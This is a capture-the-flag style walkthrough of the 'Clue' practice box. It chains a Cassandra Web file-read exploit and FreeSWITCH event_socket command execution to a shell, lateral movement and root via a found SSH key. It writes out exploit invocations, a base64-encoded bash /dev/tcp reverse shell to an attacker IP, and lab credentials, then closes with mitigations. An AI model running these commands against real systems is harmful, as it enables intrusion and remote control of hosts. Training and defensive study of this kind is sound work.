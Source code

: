 ```yaml
---
title: Clue
date: 2025-06-08
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, cassandra-web-LFI, freeswitch-event_socket-RCE,] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-06-08-clue/
---
```


## Introduction

On this hard PG practice Linux box, I discovered a **Cassandra Web interface vulnerable to Local File Inclusion (LFI)**. Using LFI, I extracted the **FreeSWITCH `event_socket` password** and gained a shell as the `freeswitch` user. Further LFI exploitation allowed me to read the **`cmdline` of the Cassandra Web process**, revealing another password. This enabled lateral movement to the `cassie` user. Under `cassie`’s home directory, I found an **`id_rsa` private key**, which provided **root access**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

Version - OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

We usually skip SSH.

### Port 139/445

- **smbclient**
    
    ![image.png](image%203.png)
    
- nxc
    
    ![image.png](image%204.png)
    

Grepping inside of backup directoty for pass I found:

![image.png](image%205.png)

### Port 8021

After a bit of googling I found the location of freeswitch credentials which turn out to be default

![image.png](image%206.png)

## Web

### Port 80

Access is forbidden.

### Port 3000

It is a Cassandra database that uses NoSQL, I found this one vulnerability for it [CVE-2021-44521](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/) it mentions if `user_defined_functions` is true we can exploit it. We need to check in `cassandra.yaml` file. As we have SMB access I checked `cassandra.yaml` and saw that it is not enabled.

![image.png](image%207.png)

To find sensitive files of cassandra I have looked at `/var/lib/cassandra` but it is empty:

![image.png](image%208.png)

## Exploitation - shell as freeswitch

I am gonna try [Cassandra Web 0.5.0 - Remote File Read](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/49362&ved=2ahUKEwiC6oGww-GNAxWgnf0HHR74KmkQFnoECAkQAQ&usg=AOvVaw3eVFUoBTNGHGUjPtMfZCNG)

```bash
python3 cassandra.py 192.168.154.240 -p 3000 /etc/passwd
```

![image.png](image%209.png)

It really works.

As it is also mentioned in an exploit I read cmdline and found cassie password:

```bash
python3 cassandra.py 192.168.154.240 -p 3000 /proc/self/cmdline
```

![image.png](image%2010.png)

`(these creds are for auth to the running apache cassandra database server)`

using this vulnerability I tried reading `event_socket_conf.xml` file to get an RCE using previous exploit.

```bash
python3 cassandra.py 192.168.154.240 -p 3000 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```

![image.png](image%2011.png)

I changed the password in exploit file and tried to run commands. IT does not display outputs of commands for some reason but I think they are executed because response length are different for different commands.

```bash
python3 47799.py 192.168.154.240 "id"
python3 47799.py 192.168.154.240 "ls"
```

![image.png](image%2012.png)

I am gonna try to see if target can reach my host:

```bash
sudo tcpdump -i tun0 icmp
```

```bash
python3 47799.py 192.168.154.240 "ping -c 1 192.168.45.214"
```

![image.png](image%2013.png)

Yes target can reach my host, I am gonna try to get a reverse shell. 

I got a shell this way:

```bash
echo -n 'bash -c "bash -i >&/dev/tcp/192.168.45.214/80 0>&1"' | base64
python3 47799.py 192.168.154.240 "echo YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguNDUuMjE0LzgwIDA+JjEi | base64 -d |bash"
```

![image.png](image%2014.png)

## Shell as cassie

I used already known password for me to get a shell as  cassie.

![image.png](image%2015.png)

Let’s make it interactive using python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Reading `/etc/ssh/sshd_config` now I see why I couldn’t get ssh access with this password.

![image.png](image%2016.png)

I found `id_rsa` file under `cassie` directory I am gonna use it for `anthony` and `cassie` it didn’t work for both of them.

## Shell as root

I used `id_rsa` for root user and it worked.

![image.png](image%2017.png)

## Credentials

```bash
cassie : SecondBiteTheApple330 #cassandra web database authentication

StrongClueConEight021 #event_socket pass
```

## Mitigation

- Patch known LFI vulnerabilities in web interfaces.
- Avoid using plaintext credentials in process arguments or config files.
- Apply strict access controls on sensitive directories like user home.
- Regularly rotate SSH keys and monitor for unauthorized ones.
- Restrict FreeSWITCH access and secure `event_socket` configurations.
